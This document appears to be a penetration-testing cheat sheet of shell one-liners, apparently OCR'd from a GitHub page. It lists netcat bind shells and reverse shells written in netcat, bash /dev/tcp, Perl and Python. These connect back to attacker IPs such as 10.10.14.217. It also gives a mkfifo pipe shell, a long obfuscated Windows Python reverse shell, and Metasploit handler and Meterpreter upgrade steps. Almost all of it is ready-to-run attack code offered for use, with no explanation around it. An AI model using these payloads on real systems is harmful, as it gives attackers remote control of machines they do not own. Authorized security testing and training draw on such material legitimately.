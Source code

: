 ### UPGRADE SIMPLE TO INTERACTIVE:
    python -c 'import pty; pty.spawn("/bin/bash")'   (also works in Meterpreter after running 'shell')
    python3 -c 'import pty; pty.spawn("/bin/bash")'
### BIND SHELL (backdoor):
    Victim Box:  nc -lvp 4444 -e /bin/sh
        Windows:  nc -nlvp 4444 -e cmd.exe
    Attack Box:  nc 1.2.3.4 4444
### REVERSE SHELL (callback):
- **MASTER LIST:**  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- **LISTENER:**  
    `nc -nvlp 4444`
    - Catch Simple Shell w/ Metasploit:  `use exploit/multi/handler, set lhost ..., set lport ..., set payload linux/x86/shell_reverse_tcp`
     - Upgrade to Meterpreter:  `background; sessions -u 1; sessions; sessions -i [new ID]`
- **NETCAT:**  

        nc [Attack box IP] 4444 -e /bin/sh  
        nc [Attack box IP] 4444 -c bash  
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f  
    - Windows:  `nc.exe [Attack box IP] 4444 -e cmd.exe`
- **BASH:** 
 
        bash -i >& /dev/tcp/[Attack box IP]/4444 0>&1  
        bash -c "bash -i >& /dev/tcp/10.10.14.217/4445 0>&1"  
        setsid bash -i &>/dev/tcp/10.10.14.20/4444 0>&1 &  
- **PERL:**  

        perl -e 'use Socket;$i="10.10.14.217";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  

- **PYTHON:**  

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.186",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
        python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Kali-IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'  
    - Windows:  

          C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"    
